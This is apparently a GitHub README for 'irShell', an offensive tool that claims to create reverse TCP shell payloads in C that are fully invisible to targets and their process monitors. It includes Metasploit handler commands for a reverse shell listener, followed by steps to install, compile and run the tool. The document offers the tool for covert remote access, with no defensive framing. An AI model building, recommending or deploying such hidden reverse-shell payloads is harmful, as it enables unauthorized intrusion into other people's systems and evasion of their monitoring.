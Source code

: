 # irShell
💯% Invisible Reverse TCP Shell Payloads for Linux/Windows in C. 

## About:
What I believe is an original method for creating reverse TCP payloads that are 100% invisible not only to the target but the target's resource/process monitors. Simple MSFconsole handlers/listeners are then used for callbacks.

## MSFconsole:

```
set exploit/multi/handler
set PAYLOAD linux/x64/shell_reverse_tcp
set LHOST 0.0.0.0
set LPORT 4444
run
```

## Requirements:

SHC 

```
sudo apt install -y shc
```

Bash

```
sudo apt install -y bash
```
GCC

```
sudo apt install -y gcc
```




## Installation:

```
git clone https://github.com/MBHudson/irShell.git && cd irShell && sudo gcc irShell.c -o irShell && chmod +x irShell
```

## Usage:

```
sudo ./irShell
```
